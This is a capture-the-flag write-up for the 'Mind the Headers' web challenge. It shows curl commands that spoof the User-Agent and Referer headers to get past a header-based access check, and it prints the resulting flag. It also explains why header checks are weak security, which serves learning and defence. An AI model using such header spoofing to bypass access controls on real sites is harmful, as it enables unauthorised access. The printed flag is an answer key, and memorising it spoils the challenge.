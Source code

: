 # Mind the Headers Challenge Writeup

## Challenge Information
- **Name**: Mind the Headers
- **Points**: 100
- **Description**: Try to bypass my security measure on this site! http://165.227.106.113/header.php
- **Difficulty**: Easy
- **Flag Format**: JKKNIUCTF{s0m3_t3xt}

## Initial Analysis
The challenge name "Mind the Headers" strongly hints that we need to manipulate HTTP headers to bypass security measures on the target website. The provided hint also mentioned that we need a "referer" [sic], further confirming that header manipulation is the key to solving this challenge.

## Solution Process

### Step 1: Initial Reconnaissance
I began by making a basic request to understand what we're dealing with:

```bash
curl http://165.227.106.113/header.php
```

This returned an error message:
```
Sorry, it seems as if your user agent is not correct, in order to access this website. The one you supplied is: curl/8.9.1
<!-- Sup3rS3cr3tAg3nt  -->
```

The server is checking the User-Agent header and rejecting our request. Interestingly, there's an HTML comment that appears to reveal the expected User-Agent: `Sup3rS3cr3tAg3nt`.

### Step 2: Setting the Correct User-Agent
Based on the hint in the HTML comment, I modified the request to use the correct User-Agent:

```bash
curl -A "Sup3rS3cr3tAg3nt" http://165.227.106.113/header.php
```

This resulted in a new error message:
```
Sorry, it seems as if you did not just come from the site, "awesomesauce.com".
<!-- Sup3rS3cr3tAg3nt  -->
```

### Step 3: Adding the Referer Header
Now the server was checking for a Referer header (as mentioned in the hint) indicating that the request came from "awesomesauce.com". I tried several variations:

First with http:// prefix:
```bash
curl -A "Sup3rS3cr3tAg3nt" -H "Referer: http://awesomesauce.com" http://165.227.106.113/header.php
```

Then with https:// prefix:
```bash
curl -A "Sup3rS3cr3tAg3nt" -H "Referer: https://awesomesauce.com" http://165.227.106.113/header.php
```

Both of these attempts failed with the same error message.

### Step 4: Finding the Correct Referer Format
Finally, I tried using just the domain name without any protocol prefix:

```bash
curl -A "Sup3rS3cr3tAg3nt" -H "Referer: awesomesauce.com" http://165.227.106.113/header.php
```

This worked! The server returned the flag:
```
Here is your flag: flag{did_this_m3ss_with_y0ur_h34d}
```

## Key Concepts
This challenge demonstrates:
1. HTTP header-based access controls
2. How easily such controls can be bypassed
3. The importance of not relying solely on HTTP headers for security measures, as they can be easily manipulated by users

## Flag
The flag for this challenge is: `flag{did_this_m3ss_with_y0ur_h34d}`